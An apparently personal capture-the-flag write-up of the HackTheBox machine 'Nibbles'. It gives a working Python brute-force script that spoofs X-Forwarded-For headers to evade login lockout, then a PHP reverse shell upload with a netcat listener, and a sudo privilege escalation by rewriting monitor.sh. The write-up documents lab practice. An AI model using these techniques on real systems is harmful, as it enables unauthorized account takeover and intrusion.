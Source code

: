 # Nibbles

So today I decided to take a stab at a handful of HackTheBox machines. Nibbles is an easy difficulty Linux machine that was retired a while back. I started off just like how I always do with a standard nmap tcp scan. 

```bash
nmap -sV -vv -p- -Pn -T4 10.10.10.75
```

The results of this indicated that ports 80 and 22 were open. I went over to the webpage running on port 80, and was greeted with just "Hello World!"

-----------
I took a peek inside the html, and in a comment it referenced the /nibbleblog/ directory. Taking a look around there, there was a lot to see. I ran gobuster on it to see if it found anything interesting. 

```bash
gobuster dir --url=http://10.10.10.75/nibbleblog/ --wordlist=/usr/share/wordlists/rockyou.txt/
```

In the meantime I did some snooping around the blog, but there was little to be found. No robots.txt, nowhere to download sourcecode, etc. Taking a look at the gobuster output a little while later, and I found that it discovered quite a few directories worth looking into. These included /admin, /content, and /settings. 

I also used dirbuster to check for a handful of different file extensions as well, and found a file at /nibblerblog/admin.php. I went over to go check it out and lo, there was a login page. I spammed it with a bunch of random credentials like admin/admin, admin/password, etc. However after my fifth attempt I was apparently IP blacklisted for 5 minutes.

To get around this, I thought I should try and change my IP address by changing the X-Forwarded-For header in the request, and then running through rockyou passwords until it cracks it. I wrote a python script to do this for me:

```python
from random import randint
import requests


PASSWORD_LIST = '/usr/share/wordlists/rockyou.txt'
TARGET_URL = f'http://10.10.10.75/nibbleblog/admin.php'
USERNAME = 'admin'


def ip_generator() -> str:
	new_address = ".".join(str(randint(0,255)) for _ in range(4))
	return new_address

def login(password: str, ip: str) -> bool:
	headers = {'X-Forwarded-For': ip}
	payload = {'username':USERNAME, 'password':password}

	request = requests.post(
		TARGET_URL, 
		headers=headers, 
		data=payload
	)

	if request.status_code == 500:
		print('internal server error')
		exit(1)

	if "Blacklist protection" in request.text:
		print("ratelimit hit")
		exit(1)

	return "Incorrect username or password" not in request.text

def run(start_at: int = 1):
	
	ip: str = ip_generator()
	attempt_count: int = 1

	for password in open(PASSWORD_LIST):
		if attempt_count < start_at:
			attempt_count += 1
			continue

		if attempt_count % (5-1) == 0:
			ip = ip_generator()

		password = password.strip()
		print(f'Testing {ip} with {password}"')

		if login(password, ip):
			print(f'Password for admin is {password}')
			break
		attempt_count += 1

if __name__ == '__main__':
	run()
```

From here, I learned that the credentials to login as admin are: 
>*admin:nibbles*

signing in as admin, and taking a peek around for a while, I eventually found the Plugins tab, where, when choosing "my image" allowed me to upload a file of my choosing, without filtering for the filetype. This made it easy to upload a PHP reverse shell from [pentestmonkey](https://github.com/pentestmonkey/php-reverse-shell). I started a netcat listener with:

```nc -nvlp 4321```

and then uploaded the file. 

My go/dirbuster adventures had revealed the directory 
>/nibbleblog/content/private/plugins/my_images

wherein my recently uploaded file lives. I can doubleclick it and just like that, I have a shell in netcat!

-----------
User Flag
-----------

Surfing through the filesystem of the machine, I found that I am working as a user called "Nibbler" and that there is a user flag :D inside /home/Nibbler/. 

Privilege Escalation
----------
Additionally inside our home directory, was a file called 
>personal.zip

unzipping it, we found a file called

>monitor.sh

Before I go any further, I want to stabilize my shell enough to be able to run sudo. I did this by running the following commands:

```bash
python3 -c "import pty; pty.spawn('/bin/bash')"
```
This gives me a much nicer looking shell that I can work better in. Looking at the permissions of this file, it appears that we can execute it using sudo, and since it's a bash script all we have to do is append a few commands to it that will elevate our shell to root once we run it! This is as easy as:

```bash
echo "bash" > monitor.sh
```

Then running the file:
```bash
sudo ./monitor.sh
```
and voila! I am now root! All that's left was to fetch the root flag from /root and call it a day!

Thanks for reading if you've made it this far!


